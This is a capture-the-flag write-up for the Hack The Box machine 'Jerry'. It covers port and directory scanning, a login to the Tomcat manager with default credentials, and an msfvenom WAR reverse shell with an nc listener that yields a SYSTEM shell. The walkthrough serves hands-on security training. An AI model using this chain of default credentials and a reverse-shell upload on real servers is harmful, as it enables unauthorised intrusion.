







# [Jerry](https://app.hackthebox.eu/machines/144)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.95 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.95 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.95
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.95
```

The TCP quick scan returns the following:



Start the following web scanner:

```bash
nikto -h http://10.10.10.95:8080/ -C all --maxtime=120s --output=nikto.txt
```



Browse to the site manually:

```bash
firefox http://10.10.10.95:8080/
```



Site looks like a default install? Start a directroy scanner looking for `jsp` pages:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.misc.txt -x jsp \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.95:8080/ &
```

This returns some interesting results:

```bash
/index.jsp (Status: 200)
/docs (Status: 200)
/examples (Status: 200)
/manager (Status: 401)
```

The `/manager` directory returns a 401 which means "unauthorized". Trying to browse to that directly asks for a username and password. Trying a basic one does not work and returns the following page:



Maybe the credentials `tomcat/s3cret` will work? Trying those results in a valid login:



Looking at this webpage shows that it is possible to upload a WAR file. Generate one and use it to get a reverse shell:

```bash
msfvenom -p java/jsp_shell_reverse_tcp \
  LHOST=10.10.14.25 \
  LPORT=6969 \
  -f war \
  -o bubba.war
nc -nvlp 6969
```

Then upload `bubba.war` so that it is shown as a deployed app:



Then browsing to `http://10.10.10.95:8080/bubba/` will trigger the reverse shell:


This shell is running as SYSTEM but there is no `user.txt` or `root.txt`? Looking around, it seems like the file is at `c:\Users\Administrator\Desktop\flags`:



